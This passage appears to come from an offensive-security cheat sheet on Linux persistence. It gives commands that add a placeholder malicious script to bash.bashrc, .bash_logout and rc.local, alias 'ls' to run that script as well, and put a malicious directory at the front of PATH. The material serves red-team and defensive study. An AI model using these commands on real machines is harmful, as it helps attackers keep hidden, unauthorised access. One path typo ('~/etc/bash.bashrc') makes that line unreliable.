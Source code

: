 #### Add Script to `/etc/bash.bashrc`
- **Add Script to `/etc/bash.bashrc` to execute the command for every user:**
	```cypher
	echo "/path/to/malicious_script.sh" >> ~/etc/bash.bashrc
	```

#### Add Script to `.bash_logout`
- **Add Script to `.bash_logout` to execute the command on log out:**
	```bash
	echo "/path/to/malicious_script" >> /home/<username>/.bash_logout
	```

# `rc.local` Persistence (Startup Scripts)
The `/etc/rc.local` script runs commands at startup before users log in. Injecting malicious commands into this script can ensure persistence after a reboot.

#### View `rc.local`
- **View `rc.local`:** Check if the system executes commands from this file.
	```bash
	cat /etc/rc.local
	```

#### Add Persistent Commands
- **Add Script to `/etc/rc.local`:**
	```bash
	echo "/path/to/malicious_script &" >> /etc/rc.local
	```
- **Or:**
	```bash
	sudo bash -c 'echo "/path/to/malicious_script.sh &" >> /etc/rc.local'
	chmod +x /etc/rc.local
	```

# Environmental Variable Persistence

#### Alias Command Persistence
Attackers can create persistent aliases in the shell configuration files (e.g., `.bashrc`, `.zshrc`).
- **Create an Alias for a Common Command:** Executes a malicious script every time the user runs `ls`.
	```bash
	echo "alias ls='ls --color=auto; /path/to/malicious_script'" >> /home/<username>/.bashrc
	```

#### Add Malicious Path to `$PATH`
- **Add Malicious Path to `$PATH`:**
	```bash
	export PATH=/path/to/malicious:$PATH
	```
- **Or:**
	```bash
	echo 'export PATH="/path/to/malicious:$PATH"' >> ~/.bashrc
	```
